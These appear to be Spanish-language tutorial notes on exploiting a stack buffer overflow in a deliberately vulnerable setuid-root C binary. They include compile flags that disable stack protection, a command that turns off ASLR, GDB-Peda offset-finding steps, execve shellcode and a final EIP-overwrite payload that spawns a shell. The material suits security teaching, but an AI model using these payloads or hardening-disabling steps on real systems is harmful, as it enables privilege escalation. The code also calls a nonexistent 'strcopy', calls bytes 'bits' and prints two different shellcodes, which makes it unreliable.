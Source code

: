## Script
```bash
#include <stdio.h>

void vuln(char *buff){
	char buffer[64];
	strcopy(buffer, buff);
}

void main(int argc, char **argv){
	vuln(argv[1]);
}
```
## Compilacion
 ```bash
 gcc -z execstack -g -fno-stack-protector -mpreferred-stack-boundary=2 buff.c -o buff
 ```
 ## Permisos
 ```bash
 chown root:root buff
 chmod +s buff
 echo 0 > /proc/sys/kernel/randomize_va_space
 ```
 ## GDB-Peda
 Vemos los registros de la memoria
 **Comando:** 
 ```bash
 i r
 ```
 Crea cadenas aleatorias
 **Comando:**
 ```bash
 pattern arg 100
 ```
 Ejecuta el binario
 **Comando:**
 ```bash
 r
 ```
 En base a la cadena creada anteriormente, busca el tamaño exacto de bites antes de sobreescribir el EIP.
 A ese numero es el que multiplicamos nuestras **"A"** y le sumamos 4 **"B"** que serían 4 bits.
 **Comando:**
 ```bash
 pattern search
 ```
 Ver los ultimos registros de la pila
 **Comando:**
 ```bash
 x/100wx $esp
 ```
 Nobs (no operate code), que nos sirven a la hora de ejecutar nuestra shell
 ```bash
 \x90
 ```
 Shell
 ```bash
 "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
 ```
 Payload final
 ```bash
 $(python -c 'print "A"*68 + "\xd4\xf4\xff\xbf" + "\x90"*200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
